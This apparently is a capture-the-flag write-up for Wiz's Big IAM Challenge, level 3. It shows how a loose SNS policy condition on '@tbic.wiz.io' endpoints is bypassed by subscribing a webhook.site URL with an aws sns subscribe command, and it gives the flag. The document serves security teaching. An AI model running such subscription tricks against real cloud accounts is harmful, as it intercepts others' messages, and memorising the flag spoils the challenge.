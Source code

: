 # Big_IAM_challenge-3
We got a message for you. Can you get it?

As long as the endpoint ends in @tbic.wiz.io, this IAM policy permits anyone to subscribe to the SNS TBICWizPushNotifications topic.

You'll need to use a different protocol to subscribe to it if you don't already have an email account that ends with that domain.


To subscribe to and get notifications from this webhook, I'll utilise the HTTPS protocol in conjunction with this tool: https://webhook.site/. Click here to get a unique URL.

Your unique URL should include /@tbic.wiz.io at the end. As an illustration, consider https://webhook.site/random-string/@tbic.wiz.io.

> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://webhook.site/random-string/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}

A message confirming your subscription should now appear in the webhook dashboard. Please click the SubscribeURL in the message to verify the subscription.

You'll keep getting message-based notifications when you confirm your subscription. This is the flag message.


Shown as {wiz:always-suspect-asterisks}
